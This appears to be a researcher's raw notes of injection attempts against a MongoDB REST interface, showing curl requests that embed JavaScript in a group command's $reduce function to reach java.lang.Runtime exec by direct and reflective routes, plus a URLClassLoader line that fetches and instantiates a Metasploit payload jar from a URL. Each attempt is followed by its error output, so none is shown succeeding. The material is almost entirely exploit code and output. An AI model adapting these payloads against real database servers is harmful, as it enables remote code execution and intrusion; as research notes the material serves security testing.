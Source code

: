 

# Direct access to Runtime
new java.lang.Runtime.getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl http://localhost:27080/foo/_cmd --data 'cmd={"group" : {"ns" : "geo", "$reduce" : "function(obj, prev) {new java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")}", "key" : {"x" : 1}, "initial" : {"count":0}}}'

Mon Feb 17 18:29:18.511 ReferenceError: java is not defined

# Reflection way 1
db.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("/Applications/Calculator.app/Contents/MacOS/Calculator")

curl http://localhost:27080/foo/_cmd --data 'cmd={"group" : {"ns" : "geo", "$reduce" : "function(obj, prev) {db.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")}", "key" : {"x" : 1}, "initial" : {"count":0}}}'

Mon Feb 17 18:29:58.322 TypeError: Property 'getClass' of object test is not a function

# Reflection way 2

db['class'].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("/Applications/Calculator.app/Contents/MacOS/Calculator")

curl http://localhost:27080/foo/_cmd --data 'cmd={"group" : {"ns" : "geo", "$reduce" : "function(obj, prev) {db['class'].forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")}", "key" : {"x" : 1}, "initial" : {"count":0}}}'

Mon Feb 17 18:30:25.896 TypeError: Property 'forName' of object test.class is not a function

# URLClassLoader
new URLClassLoader(new URL[]{new URL("http://localhost/~alvaro/met.jar")}).loadClass("metasploit.Payload").newInstance()
new URLClassLoader(new URL[]{new URL(\"http://localhost/~alvaro/met.jar\")}).loadClass(\"metasploit.Payload\").newInstance()

curl http://localhost:27080/foo/_cmd --data 'cmd={"group" : {"ns" : "geo", "$reduce" : "function(obj, prev) {var str = new java.lang.String(\"http://localhost/~alvaro/met.jar\");var url = new java.net.URL(str); var array = [url]; var cl = new java.lang.URLClassLoader(array);}", "key" : {"x" : 1}, "initial" : {"count":0}}}'


TypeError: [JavaPackage java.net.URL] is not a function, it is object.



